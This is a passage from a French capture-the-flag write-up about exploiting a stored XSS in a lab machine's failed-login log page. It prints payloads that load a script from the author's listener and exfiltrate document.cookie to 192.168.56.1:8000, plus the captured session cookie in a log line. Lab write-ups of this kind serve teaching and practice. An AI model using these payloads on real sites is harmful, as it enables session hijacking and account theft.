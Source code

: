 Ce que l'on aurait pas remarqué avec un navigateur car une redirection HTTP a lieu en même temps (entête *Location: login.php*).  

Si j'essaye de me connecter avec *test* entouré de la balise HTML *em* je vois dans les logs que l'injection du code HTML a fonctionné. On est donc dans un cas de stored XSS :  

```html
<tr><td class='fail' >Failed!</td><td>2021-12-09 12:51:27</td> <td>192.168.1.99</td> <td><em>test</em></td></tr>
```

Et on est visiblement sur la bonne voie car un indice du challenge mentionne [une vulnérabilité similaire](https://www.exploit-db.com/exploits/39171).  

J'ai donc passé le code suivant en nom d'utilisateur et attendu de voir si j'avais un retour sur le port 8000 :  

```html
<script src='//192.168.56.1:8000/index.js'></script>
```

Effectivement ça tape à la porte :  

```plain
GET /index.js HTTP/1.1
Accept: */*
Referer: http://192.168.1.124/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 192.168.56.1:8000
```

On a l'impression d'avoir affaire à un véritable navigateur. Je vais donc utiliser un code JS similaire à celui du [CTF Proteus](http://devloop.users.sourceforge.net/index.php?article216/solution-du-ctf-proteus-de-vulnhub) :  

```html
<script>var img = document.createElement("img");
img.src = "http://192.168.56.1:8000/?" + encodeURI(document.cookie);
document.body.appendChild(img);</script>
```

Ce code ajoute une image au DOM dont la source est une URL qui fera fuiter le cookie de la personne chez qui le JS est exécuté.  

Ça devait fonctionner... en théorie. Malheureusement le navigateur continuait de récupérer mon *index.js* sans aller plus loin. A la place j'ai injecté directement le payload comme nom d'utilisateur sur le formulaire de login et cette fois la pèche fût bonne :  

```plain
192.168.56.9 - - [09/Dec/2021 13:09:33] "GET /?PHPSESSID=qs7j0b3ddh71ekf9lcl7nhj6eu HTTP/1.1" 200 -
```

TV5Monde
--------
